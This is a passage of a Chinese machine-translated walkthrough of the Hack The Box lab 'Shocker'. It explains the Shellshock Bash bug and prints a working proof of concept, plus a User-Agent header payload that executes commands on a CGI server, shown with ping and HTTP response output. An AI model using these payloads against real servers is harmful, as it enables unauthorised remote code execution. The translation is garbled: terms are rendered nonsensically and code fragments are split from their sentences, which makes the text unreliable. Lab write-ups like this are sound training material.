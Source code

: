      07:03:54 up 13:33,  0 users,  load average: 0.06, 0.11, 0.04
    
    

对于黑客Shocker来说并不重要，但是Firefox弹出打开或保存文件对话框而不是在浏览器中显示此对话框的原因可以在原始响应中看到（在Burp中看到）：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210516070515215.png) 

标头是 ，这不是 Firefox 知道该怎么做的，所以它进入了原始文件对话框。看起来脚本可能试图添加一个标题，但它是在空行之后，所以它在正文中而不是标题。`Content-Type``text/x-sh``text/plain`

更重要的是，这看起来像是Linux中命令的输出，这表明这是一个在冲击器上运行的CGI bash脚本：`uptime`

    oxdf@parrot$ uptime
     07:08:38 up 5 days, 16:27, 35 users,  load average: 0.00, 0.08, 0.18
    

## 壳体作为雪莉

### 炮弹冲击背景

[外壳冲击](https://en.wikipedia.org/wiki/Shellshock_(software_bug))，又名巴什多尔或CVE-2014-6271，是2014年在Bash中发现的一个漏洞，与用于定义函数的Bash语法有关。它允许攻击者在应该只执行安全操作（如定义环境变量）的地方执行命令。最初的 POC 是这样的：

    env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
    

这是一件大事，因为许多不同的程序会接受用户输入并使用它来定义环境变量，其中最着名的是基于CGI的Web服务器。例如，通常将用户代理字符串存储在环境变量中。由于UA字符串完全由攻击者控制，这导致在这些系统上远程执行代码。

### 寻找贝壳冲击

#### 手动地

如果我可以根据CGI脚本和该框的名称假设ShellShock是这里的向量，我可以手动测试。我会把请求发给打嗝中继器，然后玩一会儿。由于 UA 字符串是通用目标，因此我将尝试在此处添加 POC：`user.sh`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210517074858892.png) 

需要注意的两个潜在问题。首先，命令需要完整路径，因为变量在执行 ShellShock 的环境中为空。`$PATH`

接下来，我需要 作为第一个命令运行，以使响应在 HTTP 响应中返回，但它确实以任何一种方式运行。例如，我将执行 .发送显示我的 VM 上的 ICMP 数据包：`echo;``ping``User-Agent: () { :;}; echo; /bin/ping -c 1 10.10.14.15``tcpdump`

    07:52:43.101742 IP 10.10.10.56 > 10.10.14.15: ICMP echo request, id 12866, seq 1, length 64
    07:52:43.101766 IP 10.10.14.15 > 10.10.10.56: ICMP echo reply, id 12866, seq 1, length 64
    

结果在响应中返回：

    HTTP/1.1 200 OK
    Date: Mon, 17 May 2021 11:57:37 GMT
    Server: Apache/2.4.18 (Ubuntu)
    Connection: close
    Content-Type: text/x-sh
    Content-Length: 261
    
    PING 10.10.14.15 (10.10.14.15) 56(84) bytes of data.
    64 bytes from 10.10.14.15: icmp_seq=1 ttl=63 time=18.9 ms
    